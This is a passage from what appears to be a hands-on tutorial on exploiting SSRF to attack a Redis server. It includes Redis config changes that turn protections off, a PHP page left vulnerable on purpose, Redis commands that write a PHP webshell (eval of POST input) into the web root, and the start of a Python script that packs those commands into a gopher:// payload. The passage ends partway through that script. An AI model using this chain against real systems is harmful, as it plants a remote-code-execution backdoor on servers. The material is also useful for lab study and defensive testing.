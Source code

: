 `Redis.conf` configuration:
 - Comment `bind 127.0.0.1 -::1`
 - Change `protected-mode yes` to `protected-mode no`

<div align=center><img src="./images/4.png"></div>

### Write to Webshell with Redis
Operation steps:
 - First place a `PHP` file with `SSRF` vulnerability on the `Web` server:

```php
<?php
    function curl($url){
        $ch = curl_init();
        curl_setopt($ch, CURLOPT_URL, $url);
        curl_setopt($ch, CURLOPT_HEADER, 0);
        curl_exec($ch);
        curl_close($ch);
    }
    
    $url = $_GET['url'];
    curl($url);
?>
```

 - Then connect to the `Redis` server and construct the `Redis` command:

```bash
flushall
set ssrf '<?php eval($_POST["h3"]);?>'
config set dir /var/www/html
config set dbfilename shell_ssrf.php
save
```
 
 - Use Python to convert the Redis command above to the Gopher protocol format:

```python
import urllib

protocol = "gopher://"
ip = "192.168.249.145"
port = "6379"
passwd = ""

shell = "\n\n<?php eval($_POST[\"h3\"]);?>\n\n"
filename = "shell_ssrf.php"
path = "/var/www/html"

cmd = ["flushall",
	 "set ssrf {}".format(shell.replace(" ", "${IFS}")),
	 "config set dir {}".format(path),
	 "config set dbfilename {}".format(filename),
	 "save"
	]
if passwd:
	cmd.insert(0, "AUTH {}".format(passwd))

payload = protocol + ip + ":" + port + "/_"

def redis_format(arr):
	CRLF = "\r\n"
	redis_arr = arr.split(" ")
	cmd = ""
	cmd += "*" + str(len(redis_arr))
	for x in redis_arr:
```